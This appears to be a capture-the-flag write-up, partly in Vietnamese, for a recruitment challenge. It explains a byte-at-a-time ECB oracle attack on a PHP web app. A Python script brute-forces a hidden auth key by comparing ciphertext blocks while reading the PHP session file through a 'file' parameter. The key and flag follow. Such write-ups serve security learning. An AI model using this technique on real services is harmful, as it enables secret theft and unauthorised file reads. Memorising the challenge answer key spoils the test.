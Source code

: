 # KCSC Recruit Memmbers - Encrypted-boizzz

## Description
```
IP
```

**Author**: `nhienit`

# Solution
Nguồn: https://github.com/d47sec/CTF-Writeups/tree/main/EnCryptBoizzz mình viết lại nhằm mục đích cá nhân là note các ý mình chưa hiểu, lưu trữ và ghi nhớ.

At 3 bytes tang 1 block

At 19 bytes tang them 1 block --> Cứ mỗi 16 bytes tăng 1 block--> `16 bytes encryption`


```python
params = {
    'name': 'A' * 32,
}
```
`result`:
```
5673760b1cc65c36 5e93fa8f4317a2c4
16 bytes 'A'    | auth_key + padding    
5673760b1cc65c36 5e93fa8f4317a2c4
16 bytes 'A'    | auth_key + padding
ddef00dfaf0fc11d ed05777122bec5c5
5fec0e7366a611d0 6db4ea75b91cedc3
```
**References**: https://zachgrace.com/posts/attacking-ecb/

1234567891234567 1234567891234567

AAAAAAAAAAAAAAAs cretkeyPPPPPPPPP
               ^
        brute-force this!! --> so sánh với block trước

**Tool exploit**:
```python
import requests
import re # for practice
import string

characters = string.digits + string.ascii_letters # characters for auth key

url = 'http://localhost:2010'
s = requests.Session()

cookies = {
    'PHPSESSID': '3da7886124215d24e99cc58c90072051'
}

def check():
    params = {
        'file': '/tmp/sess_3da7886124215d24e99cc58c90072051'
    }
    r = s.get(url, cookies=cookies, params=params)
    cipher = re.findall('"(.*)"', r.text)[0] # capture group(return)

    return cipher[:16] == cipher[32:48]

auth_key = ''
for i in range(15, -1, -1):
    for c in characters:
        params = {
            'name': 'a' * i + auth_key + c + 'a' * i
        }

        r = s.get(url, cookies=cookies, params=params)

        if check():
            auth_key += c
            print('[+] FOUND: ' + auth_key)
            break
        else:
            print('[-] FAILED at ' + str(i) + ': ' + c)

# AuthKey4N00b3r
```
**Auth key**: `AuthKey4N00b3r`

**flag**: `KCSC{Hello hacker! Hello new member ! Hello our talent <3}`
